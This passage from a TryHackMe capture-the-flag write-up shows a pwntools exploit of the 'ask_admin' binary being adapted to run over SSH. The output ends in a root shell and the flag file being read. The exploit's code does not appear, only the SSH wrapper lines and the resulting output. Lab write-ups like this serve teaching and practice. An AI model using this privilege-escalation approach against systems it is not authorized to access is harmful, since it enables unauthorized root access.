 ```
[*] Switching to interactive mode
$ id
uid=0(root) gid=0(root) groups=0(root),112(kismet)
```
It works 👍 
And you can see the content of the stack : a lot of work saved 😊 
### Escalate privileges
Python is not available on the remote server. This is not a problem ! Pwntools supports SSH too !
We just have to replace
```
p = process("./ask_admin")
```
by 
```
s = ssh(host="10.10.175.61", user="scott", password="xxxxxxxxx")
p = s.run("./ask_admin")
```
And that's it !
```
./exploit.py 
[*] Loaded 128 cached gadgets for './ask_admin'
[+] Connecting to 10.10.175.61 on port 22: Done
[*] scott@10.10.175.61:
    Distro    Unknown Unknown
    OS:       Unknown
    Arch:     Unknown
    Version:  0.0.0
    ASLR:     Disabled
    Note:     Susceptible to ASLR ulimit trick (CVE-2016-3672)
[+] Opening new channel: './ask_admin': Done
[*] Switching to interactive mode
bash-4.4# $ id
uid=0(root) gid=1000(scott) groups=1000(scott) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
bash-4.4# $ ls /root
root.txt
bash-4.4# $ cat /root/root.txt
THM{xxxxxxxxxxxxxxxxxx}
```
